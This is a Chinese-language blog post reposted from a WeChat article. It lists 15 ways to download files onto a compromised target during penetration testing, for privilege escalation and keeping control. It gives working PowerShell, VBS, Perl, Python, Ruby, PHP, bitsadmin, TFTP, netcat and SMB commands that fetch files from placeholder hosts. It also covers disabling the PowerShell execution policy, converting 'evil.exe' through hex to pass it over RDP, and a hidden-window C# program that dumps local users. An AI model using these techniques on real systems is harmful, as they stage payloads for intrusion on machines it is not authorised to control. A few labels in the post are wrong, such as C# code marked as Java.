

## 引言

在我们的渗透过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。本篇文章将会介绍 15 种下载文件的方法。

<!-- more -->

## 1 PowerShell File Download

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在 windows 2003 之中默认支持这种脚本。

下面这两条指令实现了从 Internet 网络下载一个文件。

    $p = New-Object System.Net.WebClient
    $p.DownloadFile("http://domain/file" "C:\%homepath%\file")

下面这条指令是执行一个文件

    PS C:\> .\test.ps1

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。

    C:\>powershell set-executionpolicy unrestricted

## 2 Visual Basic File Download

在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了。

    Set args = Wscript.Arguments
    Url = "http://domain/file"
    dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
    dim bStrm: Set bStrm = createobject("Adodb.Stream")
    xHttp.Open "GET", Url, False
    xHttp.Send
    with bStrm
           .type = 1 '
           .open
           .write xHttp.responseBody
           .savetofile " C:\%homepath%\file", 2 '
    end with

在 windows 中 Cscript 指令可以允许你执行 VBS 脚本文件或者对 script 脚本做一些设置。在 windows 7 中这个指令并不是必须要用到。 但是在 windows XP 中需要使用这条指令，如下所示。

`C:> cscript test.vbs`

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

## 3 Perl File Download

Perl 是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

    #!perl
    #!/usr/bin/perl
    use LWP::Simple;
    getstore("http://domain/file", "file");

执行脚本文件是这样

    root@kali:~# perl test.pl

## 4 Python File Download

Python 也是很受欢迎的主流脚本语言，代码清晰且简洁。

    #!python
    #!/usr/bin/python
    import urllib2
    u = urllib2.urlopen('http://domain/file')
    localFile = open('local_file', 'w')
    localFile.write(u.read())
    localFile.close()

执行脚本文件是这样

    root@kali:~# python test.py

## 5 Ruby File Download

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

    #!ruby
    #!/usr/bin/ruby
    require 'net/http'
    Net::HTTP.start("www.domain.com") { |http|
    r = http.get("/file")
    open("save_location", "wb") { |file|
    file.write(r.body)
    }
    }

执行脚本文件是这样

    root@kali:~# ruby test.rb

## 6 PHP File Download

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

    #!/usr/bin/php
    <?php
            $data = @file("http://example.com/file");
            $lf = "local_file";
            $fh = fopen($lf, 'w');
            fwrite($fh, $data[0]);
            fclose($fh);
    ?>

执行脚本文件是这样

    root@kali:~# php test.php

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

## 7 FTP File Download

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

    ftp 127.0.0.1
    username
    password
    get file
    exit

## 8 TFTP File Download

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

    tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server

## 9 Bitsadmin File Download

Bitsadmin 是 Windows 命令行工具，用户可以使用它来创建下载或上传的任务。

    bitsadmin /transfer n http://domain/file c:\%homepath%\file

## 10 Wget File Download

Wget 是 Linux 和 Windows 下的一个工具，允许非交互下载。

    wget http://example.com/file

## 11 Netcat File Download

Netcat 在 linux 上的实例：

攻击者的电脑上输入：

    cat file | nc -l 1234

这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令：

    nc host_ip 1234 > file

这条命令将连接攻击者的电脑，接受 file 内容保存。

## 12 Windows Share File Download

Windows shares 可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

     net use x: \\127.0.0.1\share /user:example.com\userID myPassword

## 13 Notepad Dialog Box File Download

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个 URL 或者 UNC 路径当中下载文件。

1.  打开 notepad
2.  点击 file - open

在 File Name 当中输入完整的 URL：



Notepad 将会获取 URL 的内容展现出来。

## 14 Exe to Txt, and Txt to Exe with PowerShell and Nishang

[http://code.google.com/p/nishang/downloads/list](http://code.google.com/p/nishang/downloads/list)

当需要把一个 exe 文件放到目标计算机上时，这可能是我最喜欢的工具，Nishang 使用 PowerShell 允许你吧一个 exe 转换成 hex，然后吧 hex 再转换成原来的 exe 文件。

把 exe 转成 hex 文件输入：

    PS > .\ExetoText.ps1 evil.exe evil.txt

打开 evil.txt 文件，复制内容，然后通过 RDP 的剪贴板复制进目标计算机。

把 hex 文件还原成 exe 文件输入：

    PS > .\TexttoExe.ps1 evil.text evil.exe

## 15 **Csc.exe to Compile Source from a File**

C 的编译器（CSC）是包含在在 Windows 微软.NET 安装中的命令行编译器。

这个可执行文件的默认位置是以下情况：

    C:\Windows\Microsoft.NET\Framework\version

使用下面的示例代码，编译后的可执行文件将使用的 cmd.exe 来查询本地用户，然后将结果写入一个在 C:\Temp\users.txt 中。可以修改其中的代码，达到自己想要的目的，然后编译成 exe 文件。

```java
public class Evil {
      public static void Main()
      {
         System.Diagnostics.Process process = new System.Diagnostics.Process();
         System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
         startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
         startInfo.FileName = "cmd.exe";
         startInfo.Arguments = "/C net users > C:\\Temp\\users.txt";
         process.StartInfo = startInfo;
         process.Start();
      }
}
```

代码编译命令：

```
csc.exe /out:C:\evil\evil.exe C:\evil\evil.c
```

作者：Hero

原文地址：[https://mp.weixin.qq.com/s/DfdUL5jFzJ8PvylxS6mN-A](https://mp.weixin.qq.com/s/DfdUL5jFzJ8PvylxS6mN-A)

收藏下来以后用，侵删
